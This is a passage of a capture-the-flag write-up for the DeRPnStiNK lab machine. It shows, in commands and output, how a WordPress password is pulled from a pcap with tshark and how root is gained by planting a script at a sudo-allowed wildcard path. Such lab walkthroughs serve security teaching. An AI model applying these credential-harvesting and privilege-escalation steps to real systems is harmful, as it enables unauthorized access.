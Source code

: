 Then I download the pcap file, analyzing it I find the credentials for the user **mrderp**, this user has logged into the wordpress page.

```console
root@kali:~$ wget derpnstink.local/temporary/derpissues.pcap
root@kali:~$ tshark -r derpissues.pcap -Y 'http.request.method==POST' -T fields -e text 2>/dev/null | grep 'mrderp' | tail -1 
Timestamps,POST /weblog/wp-login.php HTTP/1.1\r\n,\r\n,Form item: "log" = "mrderp",Form item: "pwd" = "derpderpderpderpderpderpderp",Form item: "wp-submit" = "Log In",Form item: "redirect_to" = "http://derpnstink.local/weblog/wp-admin/",Form item: "testcookie" = "1"
```

## Privilege Escalation
### Weak Passwords

I switch to the **mrderp** user, this has sudo permissions to run a script in the binaries directory.

```console
stinky@DeRPnStiNK:~$ su mrderp
su mrderp
Password: derpderpderpderpderpderpderp

mrderp@DeRPnStiNK:/home/stinky$ id
id
uid=1000(mrderp) gid=1000(mrderp) groups=1000(mrderp)
mrderp@DeRPnStiNK:/support$ sudo -l
sudo -l
[sudo] password for mrderp: derpderpderpderpderpderpderp                       

Matching Defaults entries for mrderp on DeRPnStiNK:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
```

### Sudo Permissions

To escalate to root we create the binaries directory, then in this we create the derpy file that contains the /bin/bash instruction, we give the script execution permission, we execute it and we get root.

```console
mrderp@DeRPnStiNK:~$ mkdir binaries
mkdir binaries
mrderp@DeRPnStiNK:~$ echo '/bin/bash' > binaries/derpy
echo '/bin/bash' > binaries/derpy
mrderp@DeRPnStiNK:~$ chmod +x binaries/derpy
chmod +x binaries/derpy
mrderp@DeRPnStiNK:~$ sudo /home/mrderp/binaries/derpy
sudo /home/mrderp/binaries/derpy
root@DeRPnStiNK:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

